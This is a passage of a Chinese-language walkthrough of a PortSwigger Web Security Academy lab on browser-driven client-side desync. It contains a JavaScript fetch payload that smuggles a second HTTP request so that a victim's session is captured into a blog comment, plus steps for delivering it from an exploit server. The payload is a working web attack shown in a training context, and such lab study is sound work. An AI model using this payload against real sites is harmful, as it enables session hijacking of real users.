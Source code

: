 [![](assets/1705301772-c8bee9c6b69fe090722613f0b484ddf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183528-a2c2aa70-b2c8-1.png)  
刷新博客文章并确认通过浏览器发起的攻击成功输出您自己/capture  
[![](assets/1705301772-0bb62cb361cab69c50a6b9311e0b65a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183542-aaca754a-b2c8-1.png)  
更改 Content-Length 捕获更多

```bash
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-5fc6d24e7c7ac65a2ba47c78a73365df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183601-b64f4f44-b2c8-1.png)  
随后转到漏洞利用服务器，在"正文"面板中粘贴之前的测试的脚本，随后将整个脚本包装在 HTML 的＜script＞标记中，存储该漏洞并单击"传递给受害者"  